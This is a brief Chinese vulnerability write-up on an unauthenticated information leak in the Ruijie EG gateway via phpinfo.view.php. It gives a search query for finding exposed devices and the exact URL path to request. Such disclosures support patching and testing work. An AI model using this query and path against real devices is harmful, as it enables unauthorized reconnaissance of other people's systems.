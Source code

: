 # 锐捷 EG易网关 phpinfo.view.php 信息泄露漏洞

## 漏洞描述

锐捷EG易网关 部分版本 phpinfo.view.php文件权限设定存在问题，导致未经身份验证获取敏感信息

## 漏洞影响

<a-checkbox checked>锐捷EG易网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Ruijie-EG易网关"</a-checkbox></br>

## 漏洞复现

查看源码发现phpinfo文件



![img](../../../.vuepress/public/img/ruijie-31.png)



访问 url



```plain
/tool/view/phpinfo.view.php
```



![img](../../../.vuepress/public/img/ruijie-32.png)



